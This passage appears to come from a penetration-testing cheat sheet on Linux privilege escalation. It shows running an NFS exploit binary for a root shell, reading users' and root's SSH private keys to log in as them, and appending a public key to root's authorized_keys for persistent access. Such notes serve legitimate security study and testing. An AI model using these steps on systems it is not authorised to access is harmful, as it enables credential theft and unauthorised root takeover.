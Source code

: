 * On the target machine, run the script to get privileges

{% code overflow="wrap" lineNumbers="true" %}
```bash
./nfs
#This will return a root shell
```
{% endcode %}

## <mark style="color:orange;">Abusing SSH keys</mark>

* Check if we have reading permissions on the SSH private keys of a user

{% code overflow="wrap" lineNumbers="true" %}
```bash
cat /home/$user/.ssh/$keyfile    #For a user
cat /root/.ssh/$keyfile          #For root user
```
{% endcode %}

{% hint style="info" %}
Standard key files are called _id\_rsa_
{% endhint %}

***

* Copy the keys to a file, assign permissions to the file, and use it to log in using the key

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>nano $filename #Copy here the keys
</strong><strong>chmod 600 $filename
</strong>ssh $username@$IP -i $filename
</code></pre>

{% hint style="info" %}
Use `chmod 600 id_rsa` to assign restrictive permissions, and SSH does not block this method
{% endhint %}

***

* When having writing permissions on the _/root/.ssh/_ directory, we can generate an SSH key with the current user and pass it to the system

{% code overflow="wrap" lineNumbers="true" %}
```bash
ssh-keygen -f $keyfile
```
{% endcode %}

{% hint style="info" %}
This will generate the file with a private key for the user and a `.pub` file with a public key
{% endhint %}

***

* Pass the public key to the authorized keys file of the _root_ user

{% code overflow="wrap" lineNumbers="true" %}
```bash
cat $keyfilename.pub >> /root/.ssh/authorized_keys
```
{% endcode %}
